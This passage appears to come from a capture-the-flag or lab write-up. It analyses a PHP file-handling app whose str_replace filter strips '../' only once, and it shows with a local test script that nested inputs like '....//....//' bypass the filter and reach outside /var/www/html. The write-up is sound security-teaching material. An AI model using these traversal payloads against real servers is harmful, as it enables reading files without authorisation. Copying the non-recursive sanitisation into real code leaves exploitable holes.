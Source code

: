 For completeness, we examine `fileDelete.php` and notice the same basic protection
logic as in `fileWrite.php`.

### TRAVERSAL ATTACK

We need tobypass that filter that is blocking us from looking outside
`/var/www/html`.  The line of code in question from `dirRead.php` is..

```
$_POST['path'] = str_replace( array(\"..\/\", \"..\\\"\"), \"\", $_POST['path']);
```

The `str_replace()` function has the following definition..

```
str_replace ( $search , $replace , $subject)

search
  The value being searched for, otherwise known as the needle. An array may be
  used to designate multiple needles.

replace
  The replacement value that replaces found search values. An array may be used to
  designate multiple replacements.

subject
  The string or array being searched and replaced on, otherwise known as the haystack.
```

Alright, so our filter is searching for all instances of `../` and `..\` and
replacing them with the empty string `""`. We can write a simple test case that
shows this filter in action that will allow us to try different inputs to see
what we can do..

```
$ cat test_filter.php
<?php
  $param = "./.list/";
  $param = $argv[1];
  $param = str_replace( array("../", "..\\"), "", $param);
  echo "/var/www/html/" . $param;
  echo "\n";
?>
```

Reading up how we can defeat traversal attack filtering..

```
https://tipstrickshack.blogspot.com/2013/02/how-to-bypassing-filter-to-traversal_8831.html
```

We note that since the code does not apply the traversal sanitization sequence
recursively, it is possible to bypass the filter by placing one sequence within
another!

```
$ php test_filter.php "../.."
/var/www/html/..
$ php test_filter.php "....//"
/var/www/html/../
$ php test_filter.php "....//....//"
/var/www/html/../../
```
